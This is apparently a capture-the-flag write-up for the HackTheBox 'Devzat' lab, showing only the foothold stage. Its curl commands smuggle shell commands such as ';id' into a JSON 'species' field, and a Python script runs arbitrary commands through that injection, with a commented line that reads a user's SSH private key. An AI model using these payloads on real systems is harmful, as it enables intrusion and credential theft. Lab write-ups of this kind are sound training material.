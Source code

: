 # Foothold

## Command Injection

there is a feature to add pet in the list, while testing this feature i notice a suspicious error.

```bash
curl -s -X POST 'http://pets.devzat.htb/api/pet' -d $'{"name":"cat","species":"test"}' 1>/dev/null; curl -s 'http://pets.devzat.htb/api/pet' | tr '{' '\n' | tail -n 1
"name":"cat","species":"test","characteristics":"exit status 1"}]

curl -s -X POST 'http://pets.devzat.htb/api/pet' -d $'{"name":"cat","species":"test\'"}' 1>/dev/null; curl -s 'http://pets.devzat.htb/api/pet' | tr '{' '\n' | tail -n 1
"name":"cat","species":"test'","characteristics":"exit status 2"}]
```

There errors are related to bash script. ;**[Source](https://www.redhat.com/sysadmin/exit-codes-demystified)**

When i send the POST request with "species" value that is not defined, get response "exit status 1" and when i add extra `'` in the "species" value get the response "exit status 2". These errors match the bash [exit code reference](https://tldp.org/LDP/abs/html/exitcodes.html)


If "species" parameter goes into a bash script then this could be command injection.

And this is indeed a command injection bug
```bash
❯ curl -s -X POST 'http://pets.devzat.htb/api/pet' -d $'{"name":"cat","species":";id"}' 1>/dev/null; curl -s 'http://pets.devzat.htb/api/pet' | tr '{' '\n' | tail -n 1
"name":"cat","species":";id","characteristics":"cat: characteristics/: Is a directory\nuid=1000(patrick) gid=1000(patrick) groups=1000(patrick)\n"}]
```

python script to beautify command output
```py
import re
import requests as r

cmd = 'ls -la'  # 'cat /home/patrick/.ssh/id_rsa'
postrspn = r.post('http://pets.devzat.htb/api/pet', json={"name": "cat", "species": f";{cmd}"})
if 'Pet was added successfully' in postrspn.text:
    getrspn = r.get('http://pets.devzat.htb/api/pet')
    parse = re.findall(r'elephant."},(.*?)"}]', getrspn.text)[0].encode('utf-8').decode('unicode_escape')
    print(parse)
else:
    print(postrspn.text)
```

from `/home/patrick/` get ssh private key for that user.

# Privesc
